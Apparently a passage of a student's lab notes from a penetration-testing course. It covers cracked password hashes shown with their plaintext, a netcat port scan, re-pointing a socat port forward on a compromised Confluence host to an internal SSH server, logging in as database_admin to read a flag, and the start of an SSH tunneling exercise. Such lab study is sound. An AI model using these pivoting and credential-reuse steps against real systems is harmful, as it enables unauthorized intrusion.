 ```bash
	{PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP:P@ssw0rd!   # - rdp admin
	{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv:sqlpass123  # - database admin account
	Approaching final keyspace - workload adjusted.
```

- After further enumeration, discover an SSH server on POSTGRESQL
```bash
nc -zv 10.4.247.63 1-1024 2>&1 | grep succeeded 
	Connection to 10.4.247.63 22 port [tcp/ssh] succeeded!
```

- Kill original socat port forward and establish a new one to the SSH server
- **NOTE** - If original socat command wasn't started in the background (a ` &` appended to the command), it'll be impossible to kill the process, and you'll have to revert the machines.
```bash
# Kill original port forward
confluence@confluence01:/opt/atlassian/confluence/bin$ ps aux | grep socat
	conflue+    3157  0.0  0.0   6968  1772 ?        S    00:40   0:00 socat TCP-LISTEN:2345,fork TCP:10.4.153.215:5432
	conflue+    3225  0.0  0.0   6432   656 ?        S    00:42   0:00 grep socat
confluence@confluence01:/opt/atlassian/confluence/bin$ kill -9 3157
confluence@confluence01:/opt/atlassian/confluence/bin$ ps aux | grep socat
	conflue+    3300  0.0  0.0   6432   656 ?        S    00:45   0:00 grep socat

# Establish new one to SSH server
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.153.215:22 &
```

- Connect to SSH server via Kali
```bash
ssh database_admin@192.168.153.63 -p 2222

database_admin@pgdatabase01:~$ whoami
	database_admin

database_admin@pgdatabase01:~$ hostname
	pgdatabase01

database_admin@pgdatabase01:~$ cat /tmp/socat_flag
	OS{d228ce8e0809a85d009c2904dcef3635}
```



# SSH Tunneling

## Local

2. Start VM Group 2. A server is running on HRSHARES port 4242. Download the **ssh_local_client** binary from **hxxp://CONFLUENCE01:8090/exercises/ssh_local_client**. Create an SSH local port forward on CONFLUENCE01, which will let you run the **ssh_local_client** from your Kali machine against the server on HRSHARES and retrieve the flag.
